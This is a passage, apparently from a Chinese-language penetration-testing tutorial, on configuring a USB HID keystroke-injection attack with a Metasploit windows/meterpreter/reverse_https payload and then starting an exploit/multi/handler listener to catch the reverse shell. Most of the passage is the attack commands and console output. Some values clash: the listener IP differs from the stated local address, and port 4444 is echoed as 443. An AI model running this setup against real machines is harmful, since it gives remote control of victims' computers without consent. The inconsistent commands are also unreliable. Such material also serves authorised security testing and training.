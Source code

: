 ![img](img/img25_u22_png.jpg)

IP 和端口填写 MSF 监听的 IP 端口,Payload 我们选择 windows/meterpreter/reverse_https,URL 为提供 Apache 服务的 IP,这里即本机:192.168.1.151

配置好后 UPDATE 配置文件,接下来需配置 MSF 监听反弹 shell

```
root@kali:~# msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > 
```

payload 同 HID 配置页面中的 payload

```
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https 
```

IP 和端口同样设置

```
msf exploit(handler) > msf exploit(handler) > set LHOST 192.168.0.17
LHOST => 192.168.0.17
msf exploit(handler) > set LPORT 4444
LPORT => 443
msf exploit(handler) > exploit

[*] Started HTTPS reverse handler on https://0.0.0.0:4444/
[*] Starting the payload handler... 
```

